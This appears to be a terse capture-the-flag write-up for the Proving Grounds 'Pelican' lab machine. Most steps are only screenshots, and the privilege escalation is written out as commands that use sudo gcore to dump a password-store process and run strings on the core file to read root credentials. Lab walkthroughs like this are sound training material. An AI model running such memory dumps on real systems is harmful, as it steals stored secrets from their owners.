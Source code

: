 ```yaml
---
title: WRITE-UP PG_pelican
date: 2024-08-23 09:00:01 +0700
categories: [write up, proving ground, red team, oscp]
tags: [proving ground]     # TAG names should always be lowercase
---
```


# Write-up PG_pelican

* first we nmap  
  
![alt text](/assets/img/PG_pelican/image.png)

* we check and get vuln of this web

![alt text](/assets/img/PG_pelican/image-1.png)

![alt text](/assets/img/PG_pelican/image-2.png)

we can see ```password-store``` in ```suid```
dump ```pid``` gcore to get root

```
ps -ef | grep password store

sudo gcore 513

strings core.513
```
now we get credential to get root

![alt text](/assets/img/PG_pelican/image-3.png)

![alt text](/assets/img/PG_pelican/image-4.png)

GG
![alt text](/assets/img/PG_pelican/image-5.png)
